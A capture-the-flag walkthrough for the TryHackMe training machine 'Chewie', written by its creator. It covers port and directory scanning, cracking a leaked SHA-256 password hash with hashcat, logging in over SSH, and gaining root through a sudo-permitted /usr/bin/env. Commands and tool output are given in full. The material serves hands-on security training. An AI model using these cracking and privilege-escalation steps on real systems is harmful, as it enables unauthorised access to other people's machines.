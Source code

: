 ```yaml
---
title: Chewie Writeup [TryHackMe]
published: true
---
```


# [](#header)Intro

This is actually my first ever VM i created and i hope it was an enjoyable machine for all of you to try :DD.

I design this room to be easy for beginners and more importantly i hope all of you enjoy.

Okay let's just get into hacking!!

<a href="https://tryhackme.com/room/chewie">
Link to the room
</a>

# [](#header)Enumeration

We start with nmap scan :

### nmap -sC -sV 192.168.100.11

- -sC : Equivalent to --script=default
- -sV : Probe open ports to determine service/version info

```bash

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 09:41 WIB
Nmap scan report for 10.10.238.69
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7b:11:1e:54:86:a6:fc:76:3a:58:cf:34:95:1b:03:de (RSA)
|   256 a9:d0:aa:7f:9d:da:5c:1b:be:1f:03:ed:80:e6:1c:f9 (ECDSA)
|_  256 93:56:b3:e7:21:fa:32:f0:04:49:75:4f:61:0c:68:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Chewwie
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.34 seconds

```

We only have 2 ports open: 80 for Apache and 22 for SSH.

Visiting the webserver we get the following page:

<img src="{{ site.baseurl }}/assets/images/chewie_thm/web_page.png">

We can try to do directory scan with gobuster and add txt extension:

### gobuster dir -u http://192.168.100.11/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt

- dir : Uses directory/file brutceforcing mode
- -w : Path to the wordlist
- -u : To specify the url

```bash

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.69/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt
[+] Timeout:        10s
===============================================================
2020/06/18 09:45:16 Starting gobuster
===============================================================
/images (Status: 301)
/notes.txt (Status: 200)
Progress: 5045 / 220561 (2.29%)
```

We found `notes.txt` and inside we found a username and password for ssh.

<img src="{{ site.baseurl }}/assets/images/chewie_thm/note.png">

But the password was hashed and we have to crack it. There's a lot of ways of cracking password, but here i will use hashcat to crack the hash:

### hashcat -a 0 -m 1400 '5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0' /opt/wordlist/rockyou.txt

- -a : --attack-mode (0 for Straight mode)
- -m : --hash-type (1400 for sha256)

```bash
Dictionary cache hit:
* Filename..: /opt/wordlist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b1280ea88ac4f0:password101

Session..........: hashcat
Status...........: Cracked
Hash.Type........: SHA2-256
Hash.Target......: 5c773b22ea79d367b38810e7e9ad108646ed62e231868cefb0b...8ac4f0
Time.Started.....: Tue Jun 16 18:39:43 2020 (1 sec)
Time.Estimated...: Tue Jun 16 18:39:44 2020 (0 secs)
Guess.Base.......: File (/opt/wordlist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    76479 H/s (3.36ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 24576/14344385 (0.17%)
Rejected.........: 0/24576 (0.00%)
Restore.Point....: 20480/14344385 (0.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: michael! -> 280789

Started: Tue Jun 16 18:39:01 2020
Stopped: Tue Jun 16 18:39:46 2020
```

A few minutes later the password was CRACKED!!

After that we can ssh to the machine with the user we found and the password we crack:

!<img src="{{ site.baseurl }}/assets/images/chewie_thm/ssh.png">

We can finally capture the user.txt in current directory:

<img src="{{ site.baseurl }}/assets/images/chewie_thm/user.png">

For the root flag, first we can use the command `sudo -l` for listng user's privileges or check a specific command:

```bash
lia@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for lia on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lia may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: /usr/bin/env
```

We can run `/usr/bin/env` as sudo. We can abuse that command to gain privilege as root by typing
<br> `sudo /usr/bin/env /bin/sh` and that's it! We are root :

<img src="{{ site.baseurl }}/assets/images/chewie_thm/esc_root.png">

We can finally capture the root.txt in /root directory:

<img src="{{ site.baseurl }}/assets/images/chewie_thm/root.png">

And that's it! We root the machine. Hope you guys enjoy reading this writeup.
Thank You :DD
